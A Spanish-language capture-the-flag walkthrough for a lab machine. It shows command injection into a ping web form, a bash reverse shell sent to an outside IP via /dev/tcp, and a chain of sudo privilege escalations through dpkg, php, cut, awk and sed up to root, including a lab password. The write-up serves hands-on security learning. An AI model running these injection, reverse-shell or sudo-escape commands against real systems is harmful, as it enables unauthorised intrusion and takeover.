

Haremos un escaneo de la ip para ver que puertos están abiertos y que servicios tiene asociados a ellos.
```
sudo nmap -sV -sC --min-rate 7000 -p- -Pn 172.17.0.2 -oN escaneo
```


Una vez vemos que tenemos el escaneo, observamos que hay un puerto que muestra una estructura html, así que vamos a ver que nos muestra. El puerto es el 5000.


Vemos que realiza un sistema de ping, pero vamos a ver si le podemos hacer un comand injection, para ello pondremos lo siguiente.
```
;id
```


Vemos que muestra el contenido de que si hubiesemos ejecutado un comando en el terminal. Al ver que le podemos pasar comandos, vamos generarnos una shell.
```
Terminal:
nc -lnvp 6969

Web:
;bash -c 'exec bash -i &>/dev/tcp/192.168.80.130/6969 <&1'
```


Le damos click a ping.


Al darle click nos hemos generado una terminal, ahora vamos hacer un tratamiento de tty para evitar problemas en la terminal.
```
script /dev/null -c bash
Ctl + z
stty raw -echo;fg
reset xterm
export SHELL=bash
export TERM=xterm
```

Una vez hayamos ejecutado estos comandos, vamos a ver si tiene algun binario para escalar permisos.
```
sudo -l
```


Vemos que podemos pivotar al usuario bobby con el binario dpkg. Para ello vamos a ver comos se explota, para ello usarmeos la herramienta searchbins.
```
searchbins -b dpkg -f sudo
```


Una vez ya sabemos como se explota, vamos a ello.
```
sudo -u bobby /usr/bin/dpkg -l
```


```
!/bin/bash
```


Ya somos bobby, ahora vamos a ver si podemos pivotar a otro usuario o directamente a root.
```
sudo -l
```


Vemos que nos podemos aprovechar del binario php. Vamos a ver como
```
searchbins -b php -f sudo
```


Una vez ya sabemos como explotarlo, vamos a explotarlo.
```
sudo -u gladys /usr/bin/php -r "system('/bin/bash');"
```


Vemos que ya somo gladys. Ahora vamos a volver a ver si podemos escalar a root directamente o tenemos que pivotar a otro usuario.
```
sudo -l
```


Vamos a ver como podemos explotar el binario cut.
```
searchbins -b cut -f sudo
```


Una vez ya sabemos como explotarlo, vamo a ello.
```
LFILE=chocolatitocontraseña.txt
sudo -u chocolatito /usr/bin/cut -d "" -f1 "$LFILE"
```


Vemos que nos suelta la contraseña del usuario chocolatito.
```
su chocolatito
password: chocolatitopassword
```


Vemos que ya somo chocolatito. Ahora vamos a volver a ver si podemos escalar a root directamente o tenemos que pivotar a otro usuario.
```
sudo -l
```


Vemos que podemos escalar al usuario theboss, con el binario awk. Vamos a ver como explotarlo.
```
searchbins -b awk -f sudo
```


Ahora que ya sabemos como explotarlo, vamos a ello.
```
sudo -u theboss /usr/bin/awk 'BEGIN {system("/bin/sh")}'
```


Una vez ya somos theboss, vamos a ver si podemos escalar a root o tenemos que seguir pivotando de usuario.
```
sudo -l
```


Vemos que podemos escalar a root con el binario sed. Vamos a ver como explotarlo.
```
searchbins -b sed -f sudo
```


Una vez ya sabemos como explotarlo, vamos a ello.
```
sudo -u root /usr/bin/sed -n '1e exec sh 1>&0' /etc/hosts
```


Vemos que finalmente somos usuario root, asi que tenemos todos los permisos, eso quiere decir que tenemos el control de la máquina por completo.